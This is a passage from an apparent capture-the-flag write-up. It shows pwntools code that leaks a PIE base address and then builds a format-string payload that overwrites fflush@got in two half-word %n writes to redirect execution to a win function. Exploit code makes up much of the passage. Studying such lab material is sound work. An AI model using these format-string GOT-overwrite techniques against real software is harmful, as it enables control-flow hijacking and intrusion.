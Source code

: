 ```
p.sendlineafter(b'your name? \n', b'AAAAAAAA')
p.recvline()
main_addr = int(p.recvline()[:-1].split(b'. is ')[1], 16)
log.success("Main address: " + hex(main_addr))
exe.address = main_addr - exe.sym['main']
log.success("Exe address: " + hex(exe.address))
```

And we get the offset is at `%7$p`:

![format_string_offset.png](images/format_string_offset.png)

Because this is a 32-bit file so we just put the address of fflush@got at the beginning of payload and change value with `%n`. To overwrite fflush@got with `lin()+116` (Example is `0x565ae6a7`), we cannot just write `0x565ae6a7` byte to fflush@got because it's a large number and will take a long time to execute that.

To solve this, we will split the address into half and write the 2 bytes of fflush@got with 2 lower bytes of `lin()+116` and 2 bytes of fflush@got+2 with 2 higher bytes of `lin()+116`. With the example of lin() address above, we will want to write `0x565ae6a7` to fflush@got (for example containing `0x11111111`) so we will write as following:

```
# fflush@got = 0x11111111
# Overwrite fflush@got with 2 lower bytes: 0xe6a7
# fflush@got = 0x1111e6a7
# Overwrite fflush@got+2 (the address is added with 2) with 2 higher bytes: 0x565a
# fflush@got = 0x565ae6a7
```

To do that, we will need to place the address of fflush@got on stack and choose the correct format string offset first:

```
payload = p32(exe.got['fflush'])
payload += b'PPPP'
payload += p32(exe.got['fflush']+2)
payload += b'%c'*5
payload += b'%c%p'          # %c point to some address before payload and %p point to 'exe.got['fflush']'
payload += b'%c%p'          # %c point to 'PPPP' and %p point to 'exe.got['fflush']+2'
p.sendlineafter(b'But....', payload)
p.recvline()
print(p.recvline())
print(hex(exe.got['fflush']))
```
